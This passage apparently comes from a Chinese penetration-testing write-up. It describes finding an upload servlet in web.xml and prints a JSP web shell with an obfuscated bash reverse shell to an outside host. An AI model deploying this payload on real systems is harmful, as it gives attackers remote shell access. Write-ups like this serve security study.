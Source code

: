 [![](assets/1705989181-be2f2872e298e9ff8cb34659986874e4.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165929-8d7857ea-b904-1.png)

但是我们需要有恶意文件才能包含从而获取权限，因此我们需要找到一个上传接口，正好在`web.xml`中发现接口`UploadTestServlet`，访问发现是上传文件接口，上传反弹 shell 文件，内容如下

```plain
<% java.io.InputStream in = Runtime.getRuntime().exec("bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xLjEuMS4xLzEyMzQgMD4mMQ==}|{base64,-d}|{bash,-i}").getInputStream(); int a = -1; byte[] b = new byte[2048]; out.print("<pre>"); while((a=in.read(b))!=-1){ out.println(new String(b));  out.print("</pre>"); } %>
```

[![](assets/1705989181-6ad9740e2f915811f6e8eb7996127f37.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122165934-900ac326-b904-1.png)
